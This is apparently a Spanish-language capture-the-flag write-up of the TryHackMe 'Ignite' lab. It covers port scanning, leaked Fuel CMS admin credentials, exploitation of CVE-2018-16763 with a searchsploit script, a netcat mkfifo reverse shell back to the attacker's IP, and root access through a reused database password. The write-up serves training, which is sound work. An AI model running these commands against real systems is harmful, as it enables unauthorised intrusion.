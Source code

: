 ```yaml
---
title: Ignite
date: 2024-09-22
categories: [PREPARING EJPTv2, TryHackMe]
tags: []  # TAG names should always be lowercase
image: /assets/images/ejptv2/ejptV2.png
---
```


---

![picture](/assets/images/ejptv2/ignite1.png)

---

En la máquina **Ignite**, encontramos credenciales del usuario **admin** filtradas para el gestor de contenidos **Fuel**, explotamos la vulnerabilidad **CVE-2018-16763**, para obtener acceso a la máquina mediante un **RCE**, y escalamos privilegios gracias a la reutilización de contraseña del usuario **root**.

---

En este ***Writeup*** se engloban las siguientes fases:
- **[Reconocimiento](#reconocimiento)**
- **[Explotación](#explotación)**
- **[Escalada de privilegios](#escalada-de-privilegios)**

---

## **Reconocimiento**

Lo primero que realizaré será un *PING*, para comprobar si tengo conectividad.

```bash
ping -c 1 10.10.32.185
```

Tengo conectividad con la máquina, y compruebo que estoy ante una máquina **Linux**.

![picture](/assets/images/ejptv2/ignite2.png)

A continuación, la idea es ver que puertos tiene abiertos, para ello utilizaré **NMAP**.

```bash
nmap -p- --open -T5 10.10.32.185 -n -Pn -v
```

Compruebo que únicamente tiene el puerto **80** abierto, así que voy a ir al navegador para ver que está corriendo por el servicio **HTTP**.

![picture](/assets/images/ejptv2/ignite3.png){: w="600" h="300" }

En la web encuentro un gestor de contenido (*CMS*) junto a su versión, **Fuel 1.4**.

![picture](/assets/images/ejptv2/ignite4.png)

También veo una ruta donde se encuentra el archivo de la base de datos.

![picture](/assets/images/ejptv2/ignite5.png){: w="600" h="300" }

Y las credenciales filtradas del usuario **admin** para el panel de **Fuel**.

![picture](/assets/images/ejptv2/ignite6.png){: w="600" h="300" }

Si voy al enlace mostrado en la imagen anterior, me redirige al panel de **login** del gestor de contenido, si introduzco las credenciales encontradas, obtengo acceso como el usuario **administrador**.

![picture](/assets/images/ejptv2/ignite7.png)

![picture](/assets/images/ejptv2/ignite8.png)

---

## **Explotación**

Utilizando la herramienta **searchsploit** mediante terminal, busco el gestor de contenido con la versión, y encuentro las siguientes vulnerabilidades.

![picture](/assets/images/ejptv2/ignite9.png)

Voy a utilizar el **RCE** (*Remote Code Execution*) 3, para copiarnos el script en la ruta actual de trabajo ejecuto lo siguiente.

```bash
searchsploit -m php/webapps/50477.py
```

Este script explora la vulnerabilidad recogida en [**CVE-2018-16763**](https://nvd.nist.gov/vuln/detail/CVE-2018-16763), que permite la Evaluación de Código **PHP** a través del parámetro "*pages/select/filter*" o el parámetro "*preview/data*". Esto puede llevar a un **RCE**.

![picture](/assets/images/ejptv2/ignite10.png){: w="600" h="300" }

A continuación, ejecuto el script con **Python3** + la URL, y nos pide que introduzcamos un comando.

![picture](/assets/images/ejptv2/ignite11.png)

Y puedo comprobar que nos muestra el *output* del comando introducido, estamos ejecutando comandos en el sistema.

Probando diferentes formas de obtener una **Reverse Shell*, al final me ha funcionado la siguiente.

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 'Nuestra Ip' 4444 >/tmp/f
```

- **`rm /tmp/f`**: Elimina cualquier archivo o pipe previo en "*/tmp/f*".
- **`mkfifo /tmp/f`**: Crea un pipe, nombrado (FIFO) en "*/tmp/f*", que es un archivo especial usado para la comunicación entre procesos.
- **`cat /tmp/f | sh -i 2>&1`**: Lee datos del pipe "*/tmp/f*", y pasa la entrada a la **shell** interactiva. El "*2>&1*" redirige el error estándar (*stderr*) a la salida estándar (*stdout*), para que todos los mensajes (errores y resultados) vayan por el mismo canal.
- **`nc 'Nuestra Ip' 4444 >/tmp/f`**: Establece una conexión con nuestra dirección IP, en el puerto **4444** usando **netcat**. La salida de esta conexión se redirige al pipe "*/tmp/f*", permitiendo la comunicación entre la **shell** y el atacante.

Para crear esta **Reverse Shell** he utilizado la Web [RevShells](https://www.revshells.com/).

Antes de ejecutarlo, tenderemos que ponernos en escucha por el puerto indicado con un **Listener** con **ncat**.

- Listener

    ```bash
    nc -lnvp 4444
    ```

Ejecutamos el comando.

![picture](/assets/images/ejptv2/ignite12.png)

Y obtenemos una **Shell** interactiva como el usuario **www-data** en la máquina remota desde nuestra máquina local.

![picture](/assets/images/ejptv2/ignite13.png)

Realizo un tratamiento de la **TTY** para mejorar la interacción con la terminal.

```bash
script /dev/null -c bash
Ctrl_Z
stty raw -echo;fg
ls
export SHELL=/bin/bash
export TERM=screen
stty rows 51 columns 208
reset
```

Dentro de la ruta "**/home**", encuentro otro directorio llamado "**www-data**", dentro del directorio encuentro la primera **flag** de usuario.

![picture](/assets/images/ejptv2/ignite14.png)

---

## **Escalada de privilegios**

Antes, habíamos encontrado la ruta del [**archivo de la base de datos**](/assets/images/ejptv2/ignite5.png) en la página web asociada a la dirección **IP**.

Si vemos su contenido, encontramos la contraseña del usuario **root**.

```bash
cat /var/www/html/fuel/application/config/database.php
```

![picture](/assets/images/ejptv2/ignite15.png)

Probamos a migrar al usuario **root** por si hubiera reutilización de contraseñas, obtenemos acceso.

En el directorio personal de **root** encontramos la segunda **flag**.

![picture](/assets/images/ejptv2/ignite16.png)